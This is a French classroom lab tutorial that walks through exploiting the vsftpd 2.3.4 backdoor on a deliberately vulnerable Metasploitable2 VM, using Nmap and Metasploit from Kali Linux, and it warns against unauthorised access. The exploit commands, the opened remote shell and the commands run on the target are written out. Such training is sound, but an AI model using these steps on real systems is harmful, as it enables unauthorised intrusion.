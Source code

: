 # Vulnérabilités Metasploit "backdoor"

Metasploit est un framework d’exploitation de vulnérabilités

🚩 Attention il est interdit d'accéder à des systèmes sans autorisation🏴‍☠️

Support : 

* VM Kalilinux avec utilisation de **metasploit**
* VM Linux vulnérable Metaspoitable

Réseau :

Le réseau doit être en **Accès par pont**
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Mise%20_en_r%C3%A9seau_.md


## Objectif :

✨ Vous devez trouver puis exploiter une vulnérabilité sur la machine vulnérable Metaspoitable avec le framework Metasploit installé sous la VM Kalilinux.

-----

## Prérequis 1 :

Nous allons utiliser la VM Linux vulnérable Metaspoitable
##### Création de la VM Metasploitable2 sous VirtualBox
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Metasploitable2/Creation_VM_Metaspoitable..md

##### Un fois active et sur le réseau déterminer son adresse IP
* Connaitre l'adrese IP de la cible ici la VM2. voir https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_IP/readme.md
-----

## Méthode

Lancer **Metasploit** sous Kalilinux

Tapez le mot de passe de kalilinux

  msf6>

On va rechercher les services et leurs versons avec Nmap.

https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_Ports_%26_applications.md

réponse attendue:
>
> Starting Nmap 7.95 (https://nmap.org) at ....
>
> ....

>Port     STATE    Service    Version
>
> **21/tcp   open  ftp   vsf......**
>
>  .....

**vsftpd** est un serveur FTP.

On va rechercher avec Metasploit s'il existe des vulnaréabilité sur les **vsf...**

    search vsftpd
    
réponse attendue:
>
>Names  Description Date Rank ...
>
>0 aux .....
>
>1 exploit/unix/ftp/vsftpd-234_backdoor ... 2011-07-03  ecellent  No

Ici on voit qu'il a trouvé un exploit : **exploit/unix/ftp/vsftpd-234_backdoor** , avec le nom on peut en déduire qu'il y a une backdoor.

On va chercher plus d'informations

      info exploit/unix/ftp/vsftpd-234_backdoor

réponse attendue:
>
> Name: vsftpd .............
>
> Module: exploit/unix/...........
>
>.....
>
>Provides by:
>
> Basic options:    Names : **RHOSTS**
>
> Payload information:
>
>Description:
>** This module exploits a malicious backdoor .....
>
>References:
>

On va utiliser cette vulnérabilité

    use exploit/unix/ftp/vsftpd-234_backdoor

msf6 exploit(unix/ftp/vsft...backdoor) >
 
RHOST signifie Remote Host "hôte distant". C'est l'adresse IP de la machine cible, ici metaspoitable. On note RHOSTS si on veut définir une ou plusieurs adresses IP cibles.


    set RHOST 192.168.56.XX
 * Set permet de leur attribuer une valeur à RHOST , ici l'adresse IP de la VM linux vulnérable Metasploitable.


Un **exploit** est un module qui permet d'exploiter une vulnérabilité spécifique sur un système cible.

    exploit

réponse attendue:
>
> [*] 192.168.56.XX:21 - Banners: 220 ......
>
>.....
>
> [*]  Command shell session 1 opened (192.168.101:42107  --> 192.168.56.XX:6200 at 2025-06-14 10:31:05 +0200

------

## Test la backdoor

on peux se déplacer , créer un répertoire , ....

    ls

    cd home

    ls

    cd 

    mkdir dirciel

    ls

On peut verifier sur la machine VM Linux vulnérable Metaspoitable , le répertoire dirciel existe.

>[!TIP]
>
> Pour supprimer ce type de vulnérabilités vous devez impérativement mettre à jours vous systèmes et leurs applications.


